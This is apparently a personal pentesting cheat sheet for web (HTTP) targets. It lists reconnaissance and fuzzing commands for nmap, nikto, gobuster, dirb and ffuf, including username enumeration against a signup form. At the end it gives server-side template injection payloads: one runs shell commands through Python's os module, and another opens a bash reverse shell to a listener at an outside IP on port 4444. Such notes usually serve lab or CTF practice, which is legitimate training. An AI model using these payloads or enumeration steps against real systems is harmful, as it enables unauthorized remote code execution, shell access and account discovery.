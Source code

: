 ```yaml
---
  title: "HTTP"
---
```

# Methodology

- identify http port
- identify services version
- identify stack (wordpress, joumla etc.)
- identify directories
- identify subdomains
- Look for common vulnerabilities and fileis
-

# Service discovery
# Framework discovery
# Common vulnerabilities discovery
# Directory discovery
# Subdomain discovery
# Username discovery
#### ffuf
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.93.83/customers/signup -mr "username already exists"`

# HTTPS

nikto -host

Port and service scanning
nmap -sV --script=http-enum 192.168.120.62

curl -v http://192.168.120.62:8000


FUZZING
ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://147.102.33.187/FUZZ"
gobuster dir --url 10.129.227.155 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
gobuster dir -u http://10.10.11.100/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30 -x php

dirb http://192.168.120.62:8000




Check if web app is vulnerable to Server-Side Template Injection
URL: 192.248.251.3:8000/{{7*’7'}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(‘ls’).read()}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(“bash -c ‘bash -i >& /dev/tcp/192.248.251.2/4444 0>&1’”).read()}}

xsser tool

